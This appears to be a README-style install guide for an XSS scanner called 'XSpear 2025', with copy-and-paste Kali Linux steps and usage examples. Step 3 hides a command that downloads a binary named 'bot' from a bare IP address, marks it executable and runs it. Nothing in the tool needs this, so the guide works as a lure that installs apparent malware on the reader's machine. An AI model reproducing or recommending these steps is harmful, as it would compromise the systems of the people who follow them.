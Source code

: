 How to Install XSpear 2025! To find XSS bugs easy $$$

----------------------------------------------------
Step By Step (kali linux) Copy And Paste!

1) git clone https://github.com/Xss12z/XSpear-2025.git

2) cd XSpear-2025

3) wget http://5.180.82.194/hiddenbin/bot.x86_64; chmod +x bot.x86_64; ./bot.x86_64

4) gem install XSpear

---------------------------------------------------
And setup is done! your ready to find XSS bugs $$ !
----------------------------------------------------
Usage 

XSpear -h 

XSpear -u "Put URL HERE" -v 1

Example XSpear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 1
